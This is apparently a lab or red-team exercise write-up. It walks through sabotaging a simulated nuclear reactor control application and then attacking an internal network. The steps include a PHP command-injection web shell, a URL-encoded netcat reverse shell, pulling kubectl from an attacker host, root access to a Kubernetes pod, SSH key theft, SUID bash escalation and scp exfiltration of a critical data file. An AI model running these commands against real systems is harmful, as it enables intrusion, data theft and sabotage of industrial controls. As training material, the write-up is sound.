


# Actions on Objectives

- [Actions on Objectives](#actions-on-objectives)
  - [Objective 1: Nuclear Meltdown](#objective-1-nuclear-meltdown)
  - [Neighbour Discovery](#neighbour-discovery)
  - [Privilege Escalation - Data-Deployment-b](#privilege-escalation---data-deployment-b)
  - [Local Enumeration - Sensitive Pod](#local-enumeration---sensitive-pod)
  - [Actions On Objective 2 - Exfiltrate the secret file](#actions-on-objective-2---exfiltrate-the-secret-file)

----

Recalling the objectives:

> 1. Cause Nuclear Meltdown (detrimental-state)<br/>
> 2. Exfiltrate critical information on one of the air-gapped networks

<br/>


## Objective 1: Nuclear Meltdown

Follow the instruction found on the jump-server:

```
Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.
```

  

  

<br/>

## Neighbour Discovery

On the remote desktop, use `arp -a` to discovery neighbour:

  

Use `ping` to discover the network `10.2.1.0/24`:

```
FOR /L %i IN (1,1,254) DO ping -n 1 10.2.1.%i | FIND /i "Reply">>c:\users\administrator\desktop\ipaddresses.txt
```

  

- `10.2.1.2` and `10.2.1.3` are alive hosts.

<br/>

Try to access 10.2.1.2 using browser:

  

- The PHP page is using `system()` command.

<br/>

Try to append `?cmd=id`:

  

- As shown, the `id` command is executed. We can use this webshell to get a reverse shell

<br/>

On the attacker machine:

```
nc -nlvp 443
```

On the RDP, make the following request:

```
http://10.2.1.2/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%204443%20%3E%2Ftmp%2Ff 
```

  

  

As shown, a reverse shell calls back.

<br/>

## Privilege Escalation - Data-Deployment-b

Checking the mount, it is a kubernetes host:

```
mount
```

  

<br/>

Since we are in Kubernetes environment, we can use `kubectl` to enuemrate the K8S environment:

```
cd /tmp && curl http://192.168.100.11/kubectl -o /tmp/kubectl
```

  


<br/>

Enumerate PODS on the K8S environment:

```
chmod +x kubectl
```

```
./kubectl get pods
```

  

<br/>

Try to access `sensitive-pod`:

```
./kubectl exec -it sensitive-pod /bin/bash
```

  

- As shown, we can access the sensitive-pod as root.

<br/>

## Local Enumeration - Sensitive Pod

Check the mount related to the Kubernetes host:

```
mount | grep sda
```

  

- The host mount is on `/root` in this pod

<br/>

Checking `/root`, it is in fact structured like a linux system:

```
ls /root
```

  

<br/>

Enumerating the home folder, found the following path with an ssh key and remote access information:

  

<br/>

Check the hosts file `/root/etc/hosts`:

```
cat /root/etc/hosts
```

  

- data-master = `10.2.1.2`

<br/>

Try to SSH to `10.2.1.2` using the private key `id_rsa`:

```
ssh -i id_rsa data-master@10.2.1.2
```

  

<br/>

## Actions On Objective 2 - Exfiltrate the secret file

Checking the data-master home directory, there is a file `cron.sh`.

  

<br/>

Checking `/tmp/bash`, it is with SUID and owned by `root`. 

```
ls -l /tmp/
```

  

<br/>

We can use this to become root:

```
/tmp/bash -p
```

  

<br/>

Checking the `/root` directory, `Critical-Data.xlsx` is found:

  

<br/>

To exfiltrate, use `scp`:

```
md5sum Critical-Data.xlsx && scp /root/Critical-Data.xlsx root@192.168.100.11:/tmp/Critical-Data.xlsx
```

  

<br/>

Check the file on the attacker host:

```
md5sum Critical-Data.xlsx
```

  

- As shown, the md5 of the received file is the same as the one on `data-master`.

<br/>

Inspect the content of `Critical-Data.xlsx`:

  

